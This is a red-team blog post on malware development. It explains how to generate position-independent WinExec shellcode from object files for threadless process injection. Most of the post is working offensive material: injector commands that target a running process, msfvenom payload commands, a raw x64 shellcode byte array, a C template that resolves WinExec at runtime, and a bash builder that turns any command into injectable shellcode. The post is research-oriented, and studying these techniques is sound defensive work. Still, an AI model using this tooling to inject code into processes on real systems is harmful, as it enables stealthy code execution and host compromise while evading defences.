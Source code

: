 ```yaml
---
layout: post
title: "Adopting Position Independent Shellcodes from Object Files in Memory for Threadless Injection"
date: 2023-02-14 05:00:00 +0300
author: snovvcrash
tags: [maldev, threadless-injection, function-stomping, shellcode-injection, shellcode-generation, pic, winexec, msfvenom]
---
```


In this blog I will describe a way to automate the generation of Position Independent Shellcodes from object files in memory (by @NinjaParanoid) to be used in Threadless Process Injection (by @\_EthicalChaos\_).

<!--cut-->

[![banner.png](/assets/images/pic-generation-for-threadless-injection/banner.png)](/assets/images/pic-generation-for-threadless-injection/banner.png)
{:.center-image}

* TOC
{:toc}

## Function Stomping / Threadless Injection

One of the items from my endless TODO-list that I never crossed out was the topic of [Function Stomping](https://idov31.github.io/2022/01/28/function-stomping.html) by [Ido Veltzman](https://twitter.com/Idov31). Luckily, [Ceri Coburn](https://twitter.com/_EthicalChaos_) [presented](https://twitter.com/_EthicalChaos_/status/1624520767483310081) an awesome [research](https://github.com/CCob/ThreadlessInject/blob/master/Needles%20without%20the%20Thread.pptx) on Threadless Process Injection accompanying a ready-to-use [injector in C#](https://github.com/CCob/ThreadlessInject) which made me get back to that long-forgotten TODO.

## Pop-the-Calc Shellcode

While playing with ThreadlessInject and [porting](https://twitter.com/snovvcrash/status/1624944014263713796) it to the [DInvoke](https://github.com/TheWover/DInvoke) API, one of the obvious desires of mine was to test it with a different shellcode. As a Proof-of-Concept Ceri provides a classic [Pop-the-Calc](https://github.com/CCob/ThreadlessInject/blob/c41df117e74b3413a8ed12ba5882058057253aac/Program.cs#L73-L82) shellcode which works smoothly but may not be enough during a real engagement:

```powershell
Start-Process notepad; .\ThreadlessInject.exe -p (Get-Process notepad).Id -d kernel32.dll -e OpenProcess
```

[![threadless-inject-calc.png](/assets/images/pic-generation-for-threadless-injection/threadless-inject-calc.png)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-calc.png)
{:.center-image}

Hackers looove popping calcs!
{:.quote}

Well, what will a hacker do to generate a shellcode? Summon `msfvenom`, of course:

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o msf-calc.bin
```

Providing the `msf-calc.bin` shellcode to ThreadlessInject.exe with `-x` option expectedly results in exiting the target process after calc has been spawned:

```powershell
Start-Process notepad; .\ThreadlessInject.exe -x .\msf-calc.bin -p (Get-Process notepad).Id -d kernel32.dll -e OpenProcess
```

[![threadless-inject-msf.gif](/assets/images/pic-generation-for-threadless-injection/threadless-inject-msf.gif)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-msf.gif)
{:.center-image}

Unwanted termination of parent process with MSF shellcode
{:.quote}

Changing the `EXITFUNC=` option during the generation process doesn't seem to be helpful:

```bash
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=none -f raw -o msf-calc-none.bin
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=process -f raw -o msf-calc-process.bin
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f raw -o msf-calc-thread.bin
```

It's a [known](https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/) thing that MSF-exec payloads are better to be started from a fresh thread 'cause the shellcode doesn't treat the stack gently. Furthermore, a hint about the required shellcode behavior is kindly left by the author of ThreadlessInject [in the comments](https://github.com/CCob/ThreadlessInject/blob/master/Program.cs#L73):

```csharp
// x64 calc shellcode function with ret as default if no shellcode supplied
static byte[] x64 = {
    0x53, 0x56, 0x57, 0x55, 0x54, 0x58, 0x66, 0x83, 0xE4, 0xF0, 0x50, 0x6A,
    0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x29, 0xD4,
    0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10,
    0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
    0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B,
    0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81,
    0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C,
    0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7,
    0x48, 0x83, 0xC4, 0x68, 0x5C, 0x5D, 0x5F, 0x5E, 0x5B, 0xC3 };
```

That is to say, the `ret` instruction should be supplied when the shellcode's job is done in order to return the execution flow back to the caller (i. e., [the assembly stub](https://github.com/CCob/ThreadlessInject/blob/c41df117e74b3413a8ed12ba5882058057253aac/Program.cs#L117)) as well as proper stack alignment should be performed with registers preserved. So let's take a look at both shellcodes side-by-side with objdump.

[![pop-the-calc-comparison.png](/assets/images/pic-generation-for-threadless-injection/pop-the-calc-comparison.png)](/assets/images/pic-generation-for-threadless-injection/pop-the-calc-comparison.png)
{:.center-image}

Comparing calc shellcodes
{:.quote}

As we can see no `ret` is observed within the MSF shellcode... Dunno whether the dynamic way of MSF generator puts the `CMD=` value onto the stack (via that `call rbp` instruction) does also negatively impacts our situation but we definitely don't get desired behavior – the parent process dies.

So what can we do about it?

## Where's the <strike>Detonator</strike>Generator?

Honestly, I don't know any other FOSS shellcode generator besides `msfvenom` so I started to google :man_shrugging: Btw, the builtin default shellcode for ThreadlessInject is as old as time and can be found in numerous GitHub repos and [gists](https://gist.github.com/dmchell/51b8c040402e6f13bacbed317335daea#file-csinjcy-L35).

Among other things, I considered the following options:

* Look for less-known open source shellcode generators for Windows x64 – failed due to a total lack of them (though [win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder) seems to be a nice project for x86).
* Use an existing Pop-the-Calc `.asm` file as template for generating a WinExec shellcode with an arbitrary argument (OS command) – failed due me being lazy. Good examples of such 'static' calc shellcodes (with a static `lpCmdLine` argument for WinExec) are [win-exec-calc-shellcode](https://github.com/peterferrie/win-exec-calc-shellcode) and [x64win-DynamicNoNull-WinExec-PopCalc-Shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode) by [Bobby Cooke](https://twitter.com/0xBoku).
* Play with popular PE → shellcode techniques like [sRDI](https://github.com/monoxgas/sRDI), [donut](https://github.com/TheWover/donut), [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode), etc.

While testing the 3rd option I came along this terrific article by [@KlezVirus](https://twitter.com/KlezVirus) – [From Process Injection to Function Hijacking](https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/) – which covers Function Stomping topic **in great depth** (one more blogpost in my TODOs).

As I was looking for a quick example to be used with ThreadlessInject, my attention was caught by one of the references to another blog of maldev magician [Chetan Nayak](https://twitter.com/NinjaParanoid) – [Executing Position Independent Shellcode from Object Files in Memory](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/) – which we shall focus on further.

## PIC from Object Files

In his blog Chetan provides a way to build a C function with a small assembly stub for proper stack alignment and returning to the caller gracefully.

> In order to make sure that our shellcode is always stack aligned, we will write a small assembly stub which will align the stack and call our C function which would act as our entrypoint. We will convert this assembly code to an object file which we will later link to our C source code. – Chetan Nayak (@NinjaParanoid)

[![bruteratel-alignstack.png](/assets/images/pic-generation-for-threadless-injection/bruteratel-alignstack.png)](/assets/images/pic-generation-for-threadless-injection/bruteratel-alignstack.png)
{:.center-image}

alignstack assembly stub (bruteratel.com)
{:.quote}

With the ability to dynamically resolve exported symbols of WinExec (which resides within `kernel32.dll`) we can extract the opcodes from the compiled binary and use them as a Position Independent shellcode. That's exactly what we need!

I shall git clone his demo [repository](https://github.com/paranoidninja/PIC-Get-Privileges) and write a template to execute a command of my choice using WinExec based on the given example of constructing the `getprivs` function:

```c
// template.c

#include "addresshunter.h"
#include <stdio.h>

typedef UINT(WINAPI* WINEXEC)(LPCSTR, UINT);

void exec() {
    UINT64 kernel32dll;
    UINT64 WinExecFunc;

    kernel32dll = GetKernel32();

    CHAR winexec_c[] = {'W','i','n','E','x','e','c', 0};
    WinExecFunc = GetSymbolAddress((HANDLE)kernel32dll, winexec_c);

    CHAR cmd_c[] = {'<CMD>'};
    ((WINEXEC)WinExecFunc)(cmd_c, 0);
}
```

Then with a bit of Bash automation we get a working alternative for the MSF `windows/x64/exec CMD= -f raw` payload generator:

```bash
#!/usr/bin/env bash

CMD=`echo "${1}" | grep -o . | sed -e ':a;N;$!ba;s/\n/\x27,\x27/g'`
CMD="${CMD//\\/\\\\\\\\}"
#echo $CMD

cat template.c | sed "s#<CMD>#${CMD}#g" > exec.c

nasm -f win64 adjuststack.asm -o adjuststack.o

x86_64-w64-mingw32-gcc exec.c -Wall -m64 -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -c -o exec.o -Wl,-Tlinker.ld,--no-seh

x86_64-w64-mingw32-ld -s adjuststack.o exec.o -o exec.exe

echo -e `for i in $(objdump -d exec.exe | grep "^ " | cut -f2); do echo -n "\x$i"; done` > exec.bin

if [ -f exec.bin ]; then
    echo "[*] Payload size: `stat -c%s exec.bin` bytes"
    echo "[+] Saved as: exec.bin"
fi

rm exec.exe exec.o exec.c adjuststack.o
```

Generate and execute:

```bash
./generate.sh 'cmd /c "whoami /all" > C:\Windows\Tasks\out.txt'
```

[![threadless-inject-exec.png](/assets/images/pic-generation-for-threadless-injection/threadless-inject-exec.png)](/assets/images/pic-generation-for-threadless-injection/threadless-inject-exec.png)
{:.center-image}

Execution of customly generated shellcode
{:.quote}

Happy hacking!

## References

* [https://github.com/CCob/ThreadlessInject](https://github.com/CCob/ThreadlessInject)
* [https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
* [https://github.com/paranoidninja/PIC-Get-Privileges](https://github.com/paranoidninja/PIC-Get-Privileges)
* [https://idov31.github.io/2022/01/28/function-stomping.html](https://idov31.github.io/2022/01/28/function-stomping.html)
* [https://github.com/Idov31/FunctionStomping](https://github.com/Idov31/FunctionStomping)
* [https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/](https://klezvirus.github.io/RedTeaming/AV_Evasion/FromInjectionToHijacking/)
* [https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/](https://rastating.github.io/altering-msfvenom-exec-payload-to-work-without-exitfunc/)
* [https://github.com/ommadawn46/win-x86-shellcoder](https://github.com/ommadawn46/win-x86-shellcoder)
* [https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode)
